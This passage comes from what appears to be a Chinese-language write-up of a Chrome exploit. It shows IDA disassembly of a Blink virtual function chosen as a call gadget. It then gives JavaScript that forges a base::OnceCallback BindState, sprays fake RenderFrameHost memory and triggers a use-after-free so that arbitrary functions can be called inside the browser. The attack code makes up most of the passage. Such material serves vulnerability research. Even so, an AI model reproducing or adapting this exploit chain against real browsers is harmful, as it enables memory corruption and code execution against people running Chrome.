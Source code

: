 这种函数在ida中还是有很多的，找一个用就好，为了能任意地址调用，我们还需要一个虚函数来调用该callback，找一个类似这种的：

```cpp
.text:0000000180E518C2 ; void __fastcall blink::FileSystemDispatcher::WriteListener::DidWrite(blink::FileSystemDispatcher::WriteListener *__hidden this, __int64, bool)
.text:0000000180E518C2 ?DidWrite@WriteListener@FileSystemDispatcher@blink@@UEAAX_J_N@Z proc near
.text:0000000180E518C2                                         ; DATA XREF: .rdata:00000001866309C8↓o
.text:0000000180E518C2                                         ; .rdata:0000000186630A68↓o ...
.text:0000000180E518C2                 mov     rcx, [rcx+10h]
.text:0000000180E518C6                 mov     rax, [rcx+8]
.text:0000000180E518CA                 jmp     rax
.text:0000000180E518CA ?DidWrite@WriteListener@FileSystemDispatcher@blink@@UEAAX_J_N@Z endp
```

封装一下：

```javascript
const kInvokeCallbackVptr = 0x66309C8n + ChromeDllBase;         // blink::FileSystemDispatcher::WriteListener::DidWrite
const kBindStatePtrOffset = 0x10;
/* Builds a base::OnceCallback and invokes it using the provided function and args */
    async function callFunction(functionAddr, arg0=0n, arg1=0n, arg2=0n, arg3=0n) {
        let k4ArgBindStateSize = 0x48;
        let bindState = new ArrayBuffer(k4ArgBindStateSize);
        let view = new DataView(bindState);
        view.setBigUint64(0, 1n, true); // refcount
        view.setBigUint64(8, kInvoker4Args, true); // polymorphic_invoke
        view.setBigUint64(0x10, kNopRet, true); // destructor
        view.setBigUint64(0x18, kNopRet, true); // query_cancellation_traits
        view.setBigUint64(0x20, functionAddr, true); // functor
        view.setBigUint64(0x28, arg0, true);
        view.setBigUint64(0x30, arg1, true);
        view.setBigUint64(0x38, arg2, true);
        view.setBigUint64(0x40, arg3, true);

        let [a, bindStateAddr] = await allocReadable(bindState);
        print("\t[*] allocated bindState at " + bindStateAddr.toString(16));

        let data = new ArrayBuffer(kRenderFrameHostSize);
        view = new DataView(data);
        offset = 0;
        view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kFirstCallVtableOffset), true);
        offset += kFieldAddrOffset;
        view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kSecondCallVtableOffset), true);
        offset += kFieldAddrOffset;
        view.setBigUint64(offset, kInvokeCallbackVptr - BigInt(kThirdCallVtableOffset), true);
        // view.setBigUint64(offset, 0xcafebabedeadn, true);
        view.setBigUint64(offset + kBindStatePtrOffset, bindStateAddr, true);

        provider_ptr = await getFreedPtr();
        await spray(data);
        await triggerUAF(provider_ptr);
    }
```
